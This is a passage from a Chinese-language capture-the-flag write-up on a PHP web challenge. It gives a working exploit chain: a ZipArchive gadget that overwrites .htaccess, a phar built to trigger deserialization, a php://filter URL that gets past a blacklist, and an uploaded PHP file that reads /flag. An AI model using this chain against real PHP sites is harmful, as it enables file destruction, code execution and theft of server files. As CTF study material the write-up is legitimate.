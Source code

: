 ```php
    public $username;
    public $password;
    public $admin;
    function __construct()
    {
        $this->admin = new ZipArchive();
        $this->username = '/var/www/html/sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/.htaccess';
        $this->password = ZIPARCHIVE::OVERWRITE;
    }
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
}
@unlink("test.phar");
$phar = new Phar("43.phar");
//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
//设置stub
$o = new File();
$phar->setMetadata($o);
//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");
//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

上传該phar文件。访问該文件。使得解除`.htaccess`被写乱的现状。

访问該链接，就是为了触发phar反序列化漏洞。

```
http://112.126.102.158:9999/view.php?filename=&filepath=php://filter/convert.base64-
encode/resource=phar://sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/dab4372519226a4dccef3b43f41200c1.phar
```

使用`filter://`是为了绕过黑名单



接着上传木马

```php
<?php
var_dump(file_get_contents("/flag"));
?>
```



访问链接：

```
http://112.126.102.158:9999/sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/71c31cca71459cafdb161a3f63a6fdc7.php
```
